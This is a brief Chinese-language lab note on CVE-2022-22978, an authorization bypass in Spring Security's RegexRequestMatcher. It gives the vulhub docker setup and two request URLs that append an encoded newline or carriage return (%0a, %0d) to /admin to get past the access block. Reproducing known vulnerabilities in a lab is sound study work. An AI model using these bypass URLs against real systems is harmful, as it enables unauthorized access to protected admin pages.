 参考笔记：



## Spring安全授权绕过RegexRequestMatcher

```
CVE-2022-22978:RegexRequestMatcher中的Spring安全授权绕过
```

漏洞介绍

在SpringSecurity版本`5.5.6`和`5.6.3`以及不受支持的旧版本中，`RegexRequestMatcher`很容易被错误配置为在一些`servlet`容器上被绕过。

在正则表达式中使用带有`.`的`RegexRequestMatcher`的应用程序可能容易绕过授权。



漏洞环境搭建

Ubantu、docker、vulhub

```
spring-security:5.6.3
1.
cd ./vulhub/spring/CVE-2022-22978

2.
docker-compose up -d
#我环境没有搭建成功
```

服务器启动后，浏览到`http://your-ip:8080/admin`以查看对管理页面的访问被阻止。

![img](assets/1669922578704-856fc588-85c8-4f7a-a4cf-3ce5afd4ebd5.png)



漏洞复现

发送以下请求以访问管理页面：

- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

%0a  换行符，%0d	回车

![img](assets/1669923595222-70e46a87-ecc2-40f8-b30c-11f59a942878.png)
